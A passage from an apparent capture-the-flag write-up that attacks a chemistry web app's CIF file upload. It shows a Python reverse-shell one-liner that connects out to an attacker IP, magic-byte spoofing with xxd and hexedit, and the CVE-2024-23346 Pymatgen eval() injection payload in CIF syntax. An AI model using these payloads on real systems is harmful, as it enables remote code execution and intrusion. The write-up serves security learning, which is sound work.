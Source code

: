 ```
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
 ```

So given this fact, we can assume that the server is using the magic numbers of the file or that the python parses the file and detects if it is a cif model or not.

So let's try the first case, that the server is using the magic numbers to determine the file type, I've created a python reverse shell:
```
┌──(oriol㉿zero)-[~/chemistry]
└─$ cat cif_test.cif      
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.157",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

Now, let's change the file magic numbers, but first I get the numbers from the real .cif file:
In this command I'm using xxd to see the hexadecimal format of the file, and only show the first 8 bytes, as are commonly used for the magic numbers:
```
┌──(oriol㉿zero)-[~/chemistry]
└─$ xxd -l 8 -p example.cif 
646174615f457861
```

Then, I edit the magic numbers of the reverse shell:
```
hexedit cif_test.cif
```

```
00000000   64 61 74 61  5F 45 78 61  63 20 27 6
```

```
┌──(oriol㉿zero)-[~/chemistry]
└─$ xxd -l 8 -p cif_test.cif                               
646174615f457861
```

Let's try:


No success, now let's try with the cif format.

A quick google search, results in a cve: **CVE-2024-23346**
Seems that the library (Pymatgen) that is used for parsing the file and determining if is a CIF or not, has a method that uses the infamous **eval()** funcition.

It even has a POC following the CIF file model, this are the lines that are used for the exploit:
```
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("touch pwned");0,0,0'
```

The thing is, that the "touch pwned" command is the one that is going to be executed on the server. We should change that to create a reverse shell. The safest thing is to create a bash reverse shell, as is the most used shell. 
